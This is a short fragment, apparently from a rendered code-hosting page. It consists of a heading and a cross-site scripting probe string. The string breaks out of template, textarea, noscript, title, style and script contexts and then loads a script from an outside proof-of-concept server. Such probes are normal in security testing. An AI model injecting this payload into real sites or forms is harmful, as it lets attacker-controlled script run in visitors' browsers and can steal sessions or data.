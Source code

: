 # test123----template-textarea-noembed-noscript-title-style-script-script-src-tes
test123\-->'>">&lt;/template>&lt;/textarea>&lt;/noembed>&lt;/noscript>&lt;/title>&lt;/style>&lt;/script>&lt;script src=//test.poc-server.com/x/?>&lt;/script>
